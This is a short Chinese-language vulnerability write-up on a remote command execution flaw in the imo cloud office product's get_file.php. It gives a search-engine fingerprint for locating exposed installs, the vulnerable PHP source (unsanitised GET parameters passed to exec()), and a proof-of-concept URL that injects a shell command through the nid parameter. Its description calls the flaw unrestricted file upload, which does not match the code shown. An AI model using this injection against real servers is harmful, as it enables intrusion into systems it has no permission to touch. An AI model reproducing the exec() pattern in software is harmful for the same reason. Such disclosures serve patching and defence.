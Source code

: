 # 

# imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](./images/202205241720834.png)

漏洞文件 get_file.php

```
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![image-20220524172138053](./images/202205241721104.png)
